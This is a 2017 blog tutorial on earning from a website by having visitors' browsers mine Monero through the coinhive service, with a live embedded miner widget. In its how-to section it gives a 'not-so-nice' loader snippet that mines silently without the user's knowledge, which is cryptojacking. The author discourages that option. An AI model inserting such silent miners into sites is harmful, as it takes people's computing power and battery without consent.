 ```yaml
---
aliases:
  - "/how-to-monetize-your-website-with-cryptocurrency-mining/"
date: "2017-12-10"
description: "Advertising is dying. Let me show you a new way to monetize your website using a JavaScript-based Monero miner."
slug: "how-to-monetize-your-website-with-cryptocurrency-mining"
tags:
  - "cryptocurrency"
  - "programming"
title: "How to Monetize Your Website with Cryptocurrency Mining"
---
```



![Dwarf Miner Sketch][]

I’m a big fan of cryptocurrencies and blockchain technologies. They have a
number of interesting applications, one of which I’ll be discussing today:
monetizing your websites.

Developing and running a successful website can be really challenging. If your
website doesn’t directly charge users for a service, making money to cover your
expenses (and potentially turn a profit) can be nearly impossible.


## Advertising is Dying

![Dying Fly Sketch][]

Integrating with an ad network like Google Adsense and showing display ads on
your site is a losing game: people hate ads and go to extreme lengths to block
and ignore them. I’ve been using ad blockers since 2006 and haven’t seen a
single web ad in over 11 years. [Recent studies](https://pagefair.com/blog/2017/adblockreport/)
estimate 11% of the global population uses an ad blocker, and that number is
likely far greater for younger generations and people in North America.

Since advertising is a undisputedly dying as an industry, there are only a
couple of options you (as a website owner) can take to monetize your website in
a future-proof way:

- Ask your visitors to donate to your website to keep it alive. There are
  numerous ways to do this. Wikipedia shows a banner across their site whenever
  they need to raise money asking users to donate a few bucks to keep the site
  running. [Patreon](https://www.patreon.com) is another popular option: ask
  your users to pay you a small monthly fee to get extra content on your site.
- Charge your users money to use your website. This is the most straightforward
  approach, but also one of the hardest. Are your users willing to pay for what
  you provide?
- Mine cryptocurrencies in the user’s browser


## Mining Cryptocurrency for Profit

<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner" style="width: 728px; height: 90px; text-align: center;" data-key="YChK05vwHZjtPThtRLWsE1fd1ece8doW" data-whitelabel="true">
  <em>Loading...</em>
</div>

Mining cryptocurrency in the browser is a relatively new strategy to monetize
websites. It’s theoretically workable, but extremely inefficient:

- Most cryptocurrencies require a lot of computing power to perform the
  necessary hash functions to “mine” cryptocurrencies
- Running cryptocurrency mining software in a user’s browser (via JavaScript) is
  inefficient: JavaScript is a slow interpreted language. Running CPU intensive
  code inside of the browser’s engine is also slow and error prone.

There is, however, one way to efficiently mine cryptocurrency in a user’s
browser: [Monero](https://getmonero.org/). Monero is a cryptocurrency designed
for anonymity. Transactions are anonymous and untraceable (unlike
[Bitcoin](https://bitcoin.org/en/you-need-to-know)).

The main reason why Monero can effectively be mined from within a browser is due
to the hashing algorithm that powers Monero transactions:
[CryptoNight](https://cryptonote.org/whitepaper.pdf).

The CryptoNight hashing algorithm is designed to run effectively on consumer
grade CPUs (this means normal desktop and laptop computers) while running
inefficiently on stronger CPUs and GPUs (which are traditionally required to
process large volumes of cryptocurrency transactions).

What this means is that Monero can be mined effectively from the computer you’re
using to read this article. Because of this, there is very little incentive for
investors to go spend millions of dollars on expensive computing equipment and
mine all of the Monero transactions (this is what has happened to Bitcoin and
Ethereum in recent years).

This levels the playing field, making it possible for you to effectively allow
users viewing your website to mine Monero for you via their browser.


## Mining Monero

![Monero Logo][]

So, how exactly can you get your users to mine Monero coins for you? The short
answer is [coinhive](https://coinhive.com/). coinhive is an API service that
allows you to embed a Monero miner into a user’s browser, which will mine coins
and earn money for you.

The way coinhive makes money is by keeping 30% of the Monero earned by your
miners. The remaining 70% is paid out to you directly in Monero.

If you have Monero, how can you cash it in for USD? In the same exact way you’d
cash Bitcoin in for USD: an exchange.

Currently, [Coinbase](https://www.coinbase.com/join/51660a68c08669f6b8000046) is
the most popular Bitcoin exchange around. It allows you to purchase Bitcoin,
sell Bitcoin, etc. The going price for Bitcoin as I write this article is nearly
$14,000 per coin.

Monero is not nearly as mainstream. There are a number of Monero exchanges you
can use, none of which have monopolized the space. You can find a list of all
the current Monero exchanges [here](http://monero.org/services/exchange/). As I
write this article, the price of a single Monero coin is $230.

If you were to run a website today that has around 10 - 20 active users mining
Monero, you could reasonably expect to earn 0.3 Monero per month: roughly $69.
If your website contains content that keeps users engaged for long periods of
time: mining Monero may be a viable strategy for monetizing your site.


## How to Mine Monero in the Browser

Now that we’ve covered the basics, let’s take a look at how you can actually
start mining Monero in the browser.

The first thing you’ll need to do is create a coinhive account, which you can do
[here](https://coinhive.com/account/signup).

Once you’ve created your account, you’ll want to visit the [Sites
page](https://coinhive.com/settings/sites). This page allows you to create new
API key pairs for each website you plan to mine on.

If you want to run this Monero mining code on multiple websites, you would
create multiple sites here and give each a unique name. This will allow you to
see how much each website has earned over time.

Now that you know how this works, go ahead and give your default API key pair a
name. It’s best to name it using the full URL of the domain you plan to run the
code on. Here’s what my screen looks like:

![coinhive Settings Page][]

**NOTE**: Whatever you do: don’t share your private key. Keep it private.

Next, you’ve got to embed the mining Javascript code into your web pages. You
have two primary ways to do this:

1. The nice way
2. The not-so-nice way

If you opt for strategy #1, you’ll want to embed the following JavaScript code
into your site:

```html
<script src="https://authedmine.com/lib/authedmine.min.js"></script>
<script>
  var miner = new CoinHive.Anonymous('YOUR_PUBLIC_KEY');
  miner.start();
</script>
```

When the page loads, your users will be greeted by this opt-in screen:

![coinhive Opt-in Page][]

This lets the user opt-in to what you’re asking them to do.

Now, if you want to go for option #2 (*which I’m not recommending*), what you’ll
want to do is the exact same thing as above with one minor change: link to a
different source file.

```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
  var miner = new CoinHive.Anonymous('YOUR_PUBLIC_KEY');
  miner.start();
</script>
```

This will let start silently mining Monero as soon the as the script is loaded,
without signaling anything to the user.


## Measuring Your Results

Now that you’ve got your users mining Monero for you, you’ll want to see how
much Monero you’re actually earning.

To do this, you’ll want to go check out your coinhive dashboard and take a look
at your stats:

![coinhive Dashboard Page][]

Not bad, right? In just a few minutes you are able to monetize any free website!


## Things to Consider

Before you run off and embed Monero mining software in all your websites, there
are a few things you should think about.

First off: I was partially lying to you earlier. While it’s true that the online
ad industry is dying because people hate ads, running a Monero miner in the
browser won’t save you from those of us who use adblockers.

I use the fantastic [uBlock Origin](https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm?hl=en)
Chrome extension and it blocks cryptocurrency miners like this one by default.
So if you’re trying to monetize a website via mining to recoup losses from
adblockers, this won’t help you. Instead: this is simply an alternative way to
monetize your free users.

While I have no evidence to back this up, I strongly suspect that users might be
more open to letting you borrow some of their CPU power than showing them
annoying and obnoxious display ads.

Finally: be careful what you do with this. If you choose to start running mining
software on a user’s computer without their consent, you’ll drain their device’s
battery faster, potentially make their device “lag”, etc. It’s just not a nice
thing to do.

So, as always, don’t be a jerk.

Got a question? [Hit me up][].

-Randall


  [Dwarf Miner Sketch]: /static/images/2017/dwarf-miner-sketch.jpg "Dwarf Miner Sketch"
  [Dying Fly Sketch]: /static/images/2017/dying-fly-sketch.jpg "Dying Fly Sketch"
  [Monero Logo]: /static/images/2017/monero-logo.png "Monero Logo"
  [coinhive Settings Page]: /static/images/2017/coinhive-settings.png "coinhive Settings Page"
  [coinhive Opt-in Page]: /static/images/2017/coinhive-opt-in.png "coinhive Opt-in Page"
  [coinhive Dashboard Page]: /static/images/2017/coinhive-dashboard.png "coinhive Dashboard Page"
  [Hit me up]: mailto:r@rdegges.com "Randall Degges' Email"
